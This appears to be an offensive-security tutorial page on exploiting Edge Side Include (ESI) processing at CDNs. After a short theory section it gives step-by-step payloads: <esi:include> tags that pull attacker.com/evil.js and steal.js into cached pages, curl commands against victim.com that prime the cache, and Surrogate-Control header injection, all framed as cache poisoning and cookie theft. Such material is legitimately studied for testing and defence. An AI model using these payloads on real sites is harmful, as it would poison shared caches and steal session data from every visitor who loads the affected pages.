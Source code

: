 ```yaml
---
title: 'Exploiting Edge Side Inclusion: Injection & Cache Attacks'
description: Learn how to exploit Edge Side Include (ESI) vulnerabilities for cache
  poisoning and data exfiltration in CDN networks.
keywords:
- Edge Side Include
- ESI Injection
- Cache Poisoning
- CDN Exploitation
- Surrogate-Control Header
- Header Manipulation
- Exfiltration
---
```


# Edge Side Inclusion

## Context

This article focuses on leveraging Edge Side Includes (ESI) for offensive operations. The goal is to teach how ESI can be exploited to perform injection attacks, cache poisoning, and data exfiltration through edge or content delivery network (CDN) infrastructures. Assumed knowledge for readers includes understanding of HTTP headers, web caching mechanisms, content delivery networks, edge computing, and Server Side Include Injection.

## Theory

### Edge Side Includes (ESI) Processing Model

Edge Side Includes (ESI) is a simple markup language used to dynamically assemble web content at the edge of a network, typically on CDN servers. ESI tags are parsed and executed by edge servers before the content is delivered to the client, providing a mechanism for dynamic content delivery while maintaining cacheability. However, this process may open vulnerabilities if untrusted input is improperly validated, enabling potential injection attacks.

### Attack Surface: ESI Injection and Edge Processing Abuse

- **Attack Sequence:** An attacker can inject ESI tags into cacheable content, causing the edge server to execute the injected logic.
- **Protocol Weakness:** Headers like Surrogate-Control can expand ESI processing scope when manipulated by an attacker.
- **Implementation Flaw:** Certain CDN services, such as Fastly, Akamai, and Varnish, allow ESI in user-controlled responses or headers, potentially enabling exploitation.

### ESI Payloads and Exploitation Primitives

- **<esi:include>:** This ESI command fetches and includes remote content during the server's response assembly.
- **<esi:vars> and <esi:choose>:** These elements enable logic and variable expansion in edge responses, making the attack scope wide-ranging.
- **Attack Sequence:** ESI payloads can be crafted to exfiltrate cookies, inject malicious JavaScript, or poison the cache serving all subsequent users.

### Edge Cache Poisoning via ESI

The fundamental principle of edge cache poisoning involves the injection of ESI tags into cacheable responses. These ESI tags persist in the cache and execute every time a subsequent user requests the content, allowing the attacker to control the content served from the cache.

### Header Manipulation and Surrogate Tag Abuse

- **Surrogate-Control Definition:** The Surrogate-Control header directs the edge/CDN to parse ESI in HTTP responses.
- **Attack Sequence:** By injecting the "Surrogate-Control: content=\"ESI/1.0\"" header, an attacker can enable ESI parsing on statutory non-dynamic content.

## Practice

### Injecting ESI Payloads into Cacheable Content

- Identify a cacheable endpoint that reflects user input in the response body. The target must be processed by an ESI-capable edge or CDN.
- Inject the following ESI tag into the reflected input:
  
    ```xml
    <esi:include src="https://attacker.com/evil.js"/>
    ```

- Send the payload to the endpoint, ensuring the response is cached:

    ```bash
    curl -H 'Host: victim.com' 'https://victim.com/page?name=<esi:include%20src="https://attacker.com/evil.js"/>'
    ```

  Outcome: The edge server fetches and includes the attacker's content in responses to all users who request the cached resource.

### Enabling ESI Processing via Surrogate-Control Header Injection

- Find an endpoint where you can inject or control HTTP response headers. Applications that reflect header values or allow header injection are ideal targets.
- Inject the following header to enable ESI parsing:

    ```http
    Surrogate-Control: content="ESI/1.0"
    ```

- Inject the following ESI tag into the response body:

    ```xml
    <esi:include src="https://attacker.com/evil.js"/>
    ```

- Trigger both header and body injection:

    ```bash
    curl -H 'X-Injected-Header: Surrogate-Control: content="ESI/1.0"' 'https://victim.com/page?name=<esi:include%20src="https://attacker.com/evil.js"/>'
    ```

  Outcome: The edge server parses ESI in responses that normally would not be processed, expanding the attack surface.

### Edge Cache Poisoning with Persistent ESI

- Locate a cacheable endpoint where injected ESI persists in the cache. Persistence is necessary for poisoning to affect multiple users.
- Inject the following ESI tag into the cacheable response:

    ```xml
    <esi:include src="https://attacker.com/evil.js"/>
    ```

- Prime the cache with the malicious payload:

    ```bash
    curl -H 'Host: victim.com' 'https://victim.com/page?comment=<esi:include%20src="https://attacker.com/evil.js"/>'
    ```

- Ensure subsequent users receive attacker-controlled content from the cache:

    ```bash
    curl -H 'Host: victim.com' 'https://victim.com/page?comment=anything'
    ```

  Outcome: Malicious content is served to all users, enabling data theft or further exploitation.

### ESI-Based Cookie Theft via Inline JavaScript

- Inject ESI that includes attacker-hosted JavaScript into a cacheable response. This JavaScript can execute in victim browsers if not properly sanitized.

- Inject the following payload, ensuring it exfiltrates cookies or session data:

    ```xml
    <esi:include src="https://attacker.com/steal.js"/>
    ```

- Inject the payload and ensure it is cached:

    ```bash
    curl -H 'Host: victim.com' 'https://victim.com/page?msg=<esi:include%20src="https://attacker.com/steal.js"/>'
    ```

  Outcome: Victim browsers execute the attacker's JavaScript, leaking cookies or session data.

## Tools

- **curl**
- **Burp Suite**
- **mitmproxy**